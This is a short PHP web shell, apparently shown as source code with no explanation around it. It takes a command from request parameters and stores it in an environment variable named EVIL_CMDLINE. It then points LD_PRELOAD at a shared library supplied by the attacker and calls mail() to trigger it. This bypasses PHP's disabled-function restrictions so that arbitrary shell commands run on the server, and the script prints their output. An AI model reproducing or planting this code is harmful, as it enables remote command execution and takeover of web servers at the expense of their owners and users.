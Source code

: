 <?php
$cmd = $_REQUEST["cmd"]; 
$out_path = $_REQUEST["outpath"]; 
$evil_cmdline = $cmd." > ".$out_path." 2>&1";
echo "<br /><b>cmdline: </b>".$evil_cmdline;
putenv("EVIL_CMDLINE=".$evil_cmdline); 

$so_path = $_REQUEST["sopath"]; 
putenv("LD_PRELOAD=".$so_path); 
mail("", "", "", ""); 

echo "<br /><b>output: </b><br />".nl2br(file_get_contents($out_path));
?>